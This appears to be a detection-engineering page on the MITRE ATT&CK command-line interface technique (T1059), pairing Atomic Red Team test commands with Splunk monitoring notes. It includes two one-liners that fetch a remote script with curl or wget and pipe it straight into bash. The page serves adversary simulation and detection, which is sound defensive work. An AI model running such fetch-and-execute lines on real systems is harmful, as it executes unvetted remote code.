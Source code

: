 # T1059 - Command-Line Interface
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1059)
<blockquote>Command-line interfaces provide a way of interacting with computer systems and is a common feature across many types of operating system platforms. (Citation: Wikipedia Command-Line Interface) One example command-line interface on Windows systems is [cmd](https://attack.mitre.org/software/S0106), which can be used to perform a number of tasks including execution of other software. Command-line interfaces can be interacted with locally or remotely via a remote desktop application, reverse shell session, etc. Commands that are executed run with the current permission level of the command-line interface process unless the command includes process invocation that changes permissions context for that execution (e.g. [Scheduled Task](https://attack.mitre.org/techniques/T1053)).

Adversaries may use command-line interfaces to interact with systems and execute other software during the course of an operation.</blockquote>

## Assumptions
Attacker or local user has access to command propmpt or powershell

## Execution:
[Test using Atomic Red Team](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1059/T1059.md)

<blockquote>
```
bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059/echo-art-fish.sh | bash"
bash -c "wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Atomics/T1059/echo-art-fish.sh | bash"
```
</blockquote>

or any commandline or powershel command

## Detection:
* Monitor CommandLine activity (including powershell)
* [Read Mitre ATT&CK for more Detection info](https://attack.mitre.org/wiki/Technique/T1059)

### Visibility
* Windows event log
* Enable Commandline audit
* Command line / Powershell activity

### Filter / Correlation in Splunk
Following catch both comandline and powershell, although they can be separated in two. 

```
"CommandLine:*"
```

![Splunk Detection](https://github.com/avaplex/dpi911/blob/master/images/T1059.JPG)
